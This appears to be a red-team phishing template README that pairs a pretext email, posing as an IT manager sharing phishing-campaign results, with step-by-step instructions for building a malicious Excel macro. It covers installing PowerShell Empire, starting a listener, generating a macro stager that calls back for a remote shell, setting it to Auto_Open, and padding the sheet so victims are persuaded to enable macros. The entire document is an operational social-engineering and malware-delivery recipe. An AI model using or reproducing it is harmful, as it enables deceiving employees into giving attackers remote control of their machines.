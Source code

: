 # Phishing Awareness Training Email 

** Objective:** Shell

## Pretext: 
You are an IT Security Manager, or IT Admin who has reciently conducted a phishing awareness campaign against your company. You are asking users to read through the email for phishing awareness and to download and view the results of the phishing campaign. The excel document needs macros enabled to view the results

## To Change:
Create your own macros (Empire is easiest) to call back. 

## Creating a malicious Macros via Empire
1. Installing Empire
  * git clone git@githu*com:PowerShellEmpire/Empire.git
  * ./setup/install.sh
2. Starting up a listener:
  * set host <listening host:port>
  * set whatever parameters you want on this, just type 'info'
  * 'execute'
3. Generating the Macro
  * usestager macro
  * set listener <listener number>
  * 'execute'
  * copy the output function
4. Inserting the macro
  * Open Excel > New Document > 'alt+F11' will get you to the macros
  * Double-clck on "This Workbook"
  * Paste in the macro function from Empire
  * Change the Sub call to 'Auto_Open()'
  * Add the line 'Dim str As String' to the top of the Debugging function call before the powershell call.
  * Go back to the spreadsheet and add in whatever content you want. I like to add in random strings and at the top say that macros needs enabled to view the content. Helps with the pretext.
